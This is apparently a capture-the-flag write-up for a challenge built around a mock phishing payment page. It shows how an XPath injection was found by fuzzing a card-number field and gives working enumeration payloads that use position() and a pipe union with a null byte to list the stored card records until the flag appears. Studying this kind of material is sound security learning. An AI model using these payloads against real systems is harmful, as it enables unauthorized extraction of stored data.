

# Fraudulent e-mail

Hi, packet inspector,

we have a apparently problem with some fraudulent payment gateway (see forwarded e-mail). We suspect that many of our
customers have come across this scam.

Identifify all card numbers entered into the fraudulent webpage (we have to report incident and its details to
CSIRT-TCC).

Download [fraudulent e-mail](fraudulent_e-mail.zip) (MD5 checksum `94c7696bed436cd63a490de4008d2022`).

May the Packet be with you!

---

The email contains a link
to http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8

Visiting the link brings us to a phishing website. I entered random data.



There is a client side validation which prevents you from sending invalid data so either disable JS or use some
HTTP client or proxy.

I started to fuzz the inputs and got lucky with `card-number=1111111111111111aaa`.
Server responded with:

```
<b>Warning</b>:  SimpleXMLElement::xpath(): Invalid predicate in <b>/var/www/html/index.php</b> on line <b>82</b><br />
```

Looks like an **XPath injection** vulnerability.

Let's try some interesting predicates like `card-number=*`:

```
This card 4556-1329-8889-9614 is broken.
```

Okay, that's promising. The asterisk got evaluated. Now we just need to enumerate all the cards.

My guess is that the database might look something similar to this:

```xml

<cards>
    <card number="8888999977771111" holder-name="John" cvv="889"/>
    <card number="8888999977779566" holder-name="Karl" cvv="859"/>
</cards>
```

And the XPath query something like this:

```
/cards/card[@number= ${args.NUMBER} ]
```

I found two different payloads how to enumerate the cards:

- `a or position()=5` - using `position()` function
    - full query `/cards/card[@number=a or position()=5]`
- `a] | /*/*[5]NULL_BYTE` - using pipe (`|`) operator combine expressions and terminating the payload with `x00`
    - full query `/cards/card[@number=a] | /*/*[5]NULL_BYTE]`

The trick is to keep enumerating the cards until you find the flag. Some cards have missing
numbers so just don't stop and keep enumerating. The correct position is `128`:

```html

<div class="alert alert-danger" role="alert">
    <p>This card <strong>FLAG{0BF0-RREd-vAK3-1Ayi}</strong> is broken.</p>
    <p>Please enter <strong>your another card number</strong>!</p>
</div>
```
